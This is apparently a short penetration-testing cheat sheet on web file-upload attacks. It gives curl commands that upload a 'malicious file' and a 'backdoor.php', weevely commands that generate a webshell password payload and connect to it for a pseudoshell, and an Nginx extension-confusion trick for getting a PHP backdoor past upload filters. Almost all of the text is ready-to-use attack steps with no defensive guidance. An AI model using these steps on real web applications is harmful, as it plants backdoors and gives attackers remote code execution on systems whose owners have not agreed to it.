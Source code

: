 #### curl
- `curl <http> --upload-file <path>` - PUT request; use it to upload malicious file
- `curl -k -X POST -F "action=upload" -F "files=@./backdoor.php" <URL>`

#### Webshell generator
* `weevely generate <password> <path>`
    * upload the generate file to vulnerable app
* `weevely <uploaded vulnerable URL>/<payload.jpg>/<payload.php> <password>` - grants a pseudoshell

### Bypasses
#### Nginx
* https://vulnerable/simple-backdoor.png/simple-backdoor.php
    * upload a php file and change the extension to png
    * append the original pgp name at the end of the URL
    * extra: in the original bypass upload request, change the mime-type to _application/x-php_